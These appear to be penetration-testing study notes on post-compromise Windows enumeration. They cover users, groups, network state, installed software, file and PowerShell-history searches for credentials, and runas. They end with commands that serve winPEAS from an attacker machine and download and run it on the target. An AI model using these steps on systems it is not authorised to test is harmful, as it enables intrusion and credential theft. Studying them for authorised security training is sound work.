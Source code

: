# General Info
First things to hunt are
```
- Username and hostname
- Group memberships of the current user
- Existing users and groups
- Operating system, version and architecture
- Network information
- Installed applications
- Running processes
```

first things first
```
whoami
```

for group information
```
whoami /groups
```

for the following commands make sure you start a powershell session
```
powershell
```

now to find info on other users
```
Get-LocalUser
```

for info on all groups
```
Get-LocalGroup
```

Groups to look for are
1. Administrators
2. Backup Operators
3. Remote Desktop Users
4. and Remote Management Users.

Members of _Backup Operators_ can backup and restore all files on a computer, even those files they don't have permissions for. We must not confuse this group with non-standard groups such as _BackupUsers_ in our example.

if you would like to know the users that belong to a specific group you may use
```
Get-LocalGroupMember <groupname>
```
if group name includes spaces `""` double quotes are required

for OS, version, and architecture
```
systeminfo
```

for network information
```
ipconfig /all
```

to get a routing table
```
route print
```

To list all active network connections we can use [_netstat_](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/netstat) with the argument **-a** to display all active TCP connections as well as TCP and UDP ports, **-n** to disable name resolution, and **-o** to show the process ID for each connection.
```
netstat -ano
```

to check all installed applications. We can query [two registry keys](https://devblogs.microsoft.com/scripting/use-powershell-to-find-installed-software/) to list both 32-bit and 64-bit applications in the _Windows Registry_ with the [_Get-ItemProperty_](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/get-itemproperty?view=powershell-7.2) Cmdlet. We pipe the output to **select** with the argument **displayname** to only display the application's names. We begin with the 32-bit applications and then display the 64-bit applications.
```
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```
for 32 bit look above
for 64 bit look below
```
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```

However, the listed applications from Listing 15 may not be complete. For example, this could be due to an incomplete or flawed installation process. Therefore, we should always check 32-bit and 64-bit **Program Files** directories located in **C:\\**. Additionally, we should review the contents of the **Downloads** directory of our user to find more potential programs.



to find currently running processes use
```
Get-Process
```

# Plain sight data And search strings

To search the whole machine for a file suffix
```
Get-ChildItem -Path C:\ -Include *.<suffix here> -File -Recurse -ErrorAction SilentlyContinue
```
Suffixes to try:
txt
ini
settings


Someone please write something on RUNAS for the sake of everything it's how you execute as a different user
```
runas /user:backupadmin cmd
```


## Powershell history

A good first check is
```
Get-History
```
but this history can be cleared quite easily so don't count on it having sensitive data

```
(Get-PSReadlineOption).HistorySavePath
```
this shows you the path to a file that should have all Powershell history saved
Then just use the `Type` command to view the contents of said file.

If you `type` the file path above and then pipe it into `FINDSTR` which acts like grep, you can use it to find very interesting info.

> [!tip]
> Look into `evil-winrm`


# Automated Enumeration

## winpeas
run a python web server in the same directory you have winpeas stored
```
python3 -m http.server 80
```

then on the target machine run
```
iwr -uri http://192.168.48.3/winPEASx64.exe -Outfile winPEAS.exe
```
Obviously change the IP you idiot

Then simply run
```
.\winPEAS.exe
```
on the target machine and enjoy the info dump
